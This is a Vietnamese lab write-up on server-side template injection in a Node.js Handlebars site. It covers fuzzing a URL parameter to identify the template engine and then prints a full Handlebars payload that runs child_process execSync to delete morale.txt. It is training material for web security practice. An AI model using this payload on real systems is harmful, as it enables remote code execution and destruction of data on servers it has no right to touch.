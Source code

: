 ![image](https://hackmd.io/_uploads/S1y0j9m56.png)

### Phân tích

- Lab trên cũng đã dính lỗ hổng SSTI, để solve lab mình cần phải tìm xem trang web sử dụng loại template rồi tìm cách thực thi code tùy ý mình, từ đó xóa file morale.txt từ thư viện home của Carlos.

- Trang web này hiện chi tiết của các sản phẩm khi ấn vào View details, tuy nhiên khi ấn vào sản phẩm đầu tiên nó đã hiện ra sản phẩm này đã hết hàng, và nó lấy dòng này từ URL nên mình đã nghĩ đến việc thực hiện SSTI thông qua url này:

![image](https://hackmd.io/_uploads/Hyz53qmqa.png)

- Fuzz message bằng `${{<%[%'"}}%\`, ta thấy server trả lỗi kèm theo tên template engine Handlebars của Nodejs → Server có thể dính SSTI.

![image](https://hackmd.io/_uploads/SkTbpqXc6.png)

- mình nhận định đây là template Handlebars, template này sẽ compile template thành các chức năng trong javascript

- Biết được nó dùng tempalte Handlebars của Nodejs, mình sẽ đi kiếm payload

![image](https://hackmd.io/_uploads/r143p5X9a.png)

### Khai thác

mình dùng payload sau encode URL và gửi và gửi gói tin

```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('rm morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

![image](https://hackmd.io/_uploads/SyLgyiQqT.png)
